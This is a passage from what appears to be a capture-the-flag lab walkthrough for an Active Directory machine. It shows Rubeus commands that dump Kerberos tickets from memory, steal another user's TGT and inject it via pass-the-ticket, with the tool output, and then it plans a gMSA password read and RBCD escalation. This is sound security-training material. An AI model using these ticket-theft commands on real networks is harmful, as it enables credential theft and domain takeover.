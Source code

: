 That’s full local admin on `WS-3`. Now there are several ways to get the root flag. 

### Method 1
Ok so first move — dump any user Kerberos tickets from memory and pray we find one. Run Rubeus, dump all tickets, jackpot — Rose's TGT is just sitting there in memory like it’s on clearance. We grab that Base64 ticket, renew it, and inject it straight into our current session with `/ptt`.

```powershell
PS C:\tmp> .\Rubeus.exe dump /nowrap

ServiceName              :  krbtgt/UNIVERSITY.HTB
    ServiceRealm             :  UNIVERSITY.HTB
    UserName                 :  Rose.L
    UserRealm                :  UNIVERSITY.HTB
    StartTime                :  12/23/2024 11:13:06 AM
    EndTime                  :  12/23/2024 9:11:36 PM
    RenewTill                :  12/30/2024 11:11:36 AM
    Flags                    :  name_canonicalize, pre_authent, renewable, forwarded, forwardable
    KeyType                  :  aes256_cts_hmac_sha1
    Base64(key)              :  yyPBB4KJQdaFY9q/6OOMETkXrf+1N+q4gORS/lQtpME=
    Base64EncodedTicket      : <ROSE_BASE64_TICKET>

PS C:\tmp> .\Rubeus.exe renew /ticket:<ROSE_BASE64_TICKET> /ptt /nowrap
```

Quick klist check and boom, we’re literally her now.

```console
PS C:\tmp> klist

Current LogonId is 0:0x3e7
Cached Tickets: (2)

#0> Client: Rose.L @ UNIVERSITY.HTB
    Server: krbtgt/UNIVERSITY.HTB @ UNIVERSITY.HTB
    KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
    Ticket Flags 0x60a10000 -> forwardable forwarded renewable pre_authent name_canonicalize 
    Start Time: 12/23/2024 11:26:13 (local)
    End Time:   12/23/2024 21:24:43 (local)
    Renew Time: 12/30/2024 11:21:36 (local)
    Session Key Type: AES-256-CTS-HMAC-SHA1-96
    Cache Flags: 0x1 -> PRIMARY 
    Kdc Called: 

```

From BloodHound we see Rose has ReadGMSAPassword rights on the GMSA-PClient01$ account. That’s spicy because that means we can read the machine account password and escalate to Domain Admin with an RBCD attack.
